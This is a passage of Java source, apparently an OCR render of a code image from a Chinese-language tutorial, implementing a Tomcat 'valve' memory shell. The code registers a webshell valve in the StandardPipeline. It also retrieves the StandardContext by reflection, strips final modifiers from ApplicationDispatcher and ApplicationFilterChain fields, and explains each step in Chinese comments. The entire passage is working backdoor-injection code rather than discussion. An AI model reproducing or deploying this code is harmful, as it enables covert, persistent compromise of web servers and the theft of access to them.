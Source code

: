 ```java
                    // 在这里对每个valve进行操作
                    if (valve.getClass().equals(valveShell.getClass())) {
                        hasValveShell = true;
                        break;
                    }
                }
                if (!hasValveShell) {
                    standardPipeline.addValve(valveShell);
                }
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    public static StandardContext getStandardContext1() {
        try{
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            Field webappclassLoaderBaseField=Class.forName("org.apache.catalina.loader.WebappClassLoaderBase").getDeclaredField("resources");
            webappclassLoaderBaseField.setAccessible(true);
            WebResourceRoot resources=(WebResourceRoot) webappclassLoaderBaseField.get(webappClassLoaderBase);
            Context StandardContext =  resources.getContext();
            return (StandardContext) StandardContext;
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }

    public static StandardContext getStandardContext2() {
        try{
            //反射获取WRAP_SOME_OBJECT_FIELD lastServicedRequest lastServicedResponse
            Field WRAP_SOME_OBJECT_FIELD=Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestfield= ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponsefield=ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
            WRAP_SOME_OBJECT_FIELD.setAccessible(true);
            lastServicedRequestfield.setAccessible(true);
            lastServicedResponsefield.setAccessible(true);
            //使用modifiersField修改属性值的final修饰
            //每一个Field都会存在一个变量 modifiers用来描述修饰词，所以这里我们获取到的是Field的modifiers 它本质上是一个int类型的值
            java.lang.reflect.Field  modifiersfield= Field.class.getDeclaredField("modifiers");
            modifiersfield.setAccessible(true);

            //修改WRAP_SOME_OBJECT_FIELD以及requst和response的modifiers，值的话由于要得到16进制位数，并且清除final属性，本质上就是将他修改为0x0000即可，这里getModifiers()的结果为0x0010 Modifier.FINAL的结果也是0x0010，所以两者&~运算得到0x0000
            modifiersfield.setInt(WRAP_SOME_OBJECT_FIELD,WRAP_SOME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedRequestfield,lastServicedRequestfield.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedResponsefield,lastServicedResponsefield.getModifiers() & ~Modifier.FINAL);


            //如果是第一次访问，WRAP_SOME_OBJECT_FIELD肯定是没有值的，所以我们赋值上true 并且同时给lastServicedRequest和lastServicedResponse都初始化
```